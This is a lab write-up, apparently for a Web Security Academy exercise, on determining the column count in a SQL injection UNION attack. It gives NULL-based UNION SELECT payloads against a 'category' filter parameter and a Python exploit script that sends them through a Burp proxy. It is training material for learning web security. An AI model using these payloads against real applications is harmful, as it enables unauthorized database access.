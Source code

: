 ```yaml
---
title: '7 SQLi Lab'
description: 'SQL injection for determining the number of columns returned by a query'
---
```



## SQL injection UNION attack, determining the number of columns returned by the query

<div style="text-align: justify;">
  This lab demonstrates how to determine the number of columns returned by a query in a SQL injection scenario. The vulnerable product category filter returns the results of a query in the application's response. To perform a `UNION` attack, the first step is to find the correct number of columns by sending payloads containing `NULL` values until the query executes successfully without errors. This technique is fundamental for constructing further SQL injection attacks in subsequent labs.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- Start with a payload like `'+UNION+SELECT+NULL--` to test the query. An error indicates the number of columns does not match.
- Gradually add `NULL` values separated by commas (e.g. `'+UNION+SELECT+NULL,NULL--`) until the response executes successfully.
- Once the number of columns is correct, the lab is considered solved.
- This method prepares the ground for full `UNION SELECT` attacks in future labs.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Check if Burp Suite is running and listening on the configured proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_sqli(url, payload):
    """
    Send payload directly in the URL, then check base URL for success banner.
    """
    try:
        # Step 1: Send payload
        full_url = url.rstrip("/") + payload
        res = requests.get(full_url, verify=False, proxies=proxies, timeout=10)
        res.raise_for_status()

        # Step 2: Request base URL again and check for 'Congratulations'
        check_res = requests.get(url, verify=False, proxies=proxies, timeout=10)
        check_res.raise_for_status()
        return "Congratulations" in check_res.text

    except requests.RequestException as e:
        print(f"[-] Error while sending request: {e}")
        sys.exit(1)

def main():
    """
    Entry point of the script.
    """
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define SQL injection payload
    payload = "/filter?category='+UNION+SELECT+NULL,NULL,NULL--"

    # Step 3: Attempt exploitation
    print("[*] Sending payload...")
    if exploit_sqli(url, payload):
        print("[+] Lab solved! 🎉")
    else:
        print("[-] Payload sent but lab not solved (no 'Congratulations' found).")

if __name__ == "__main__":
    main()
```
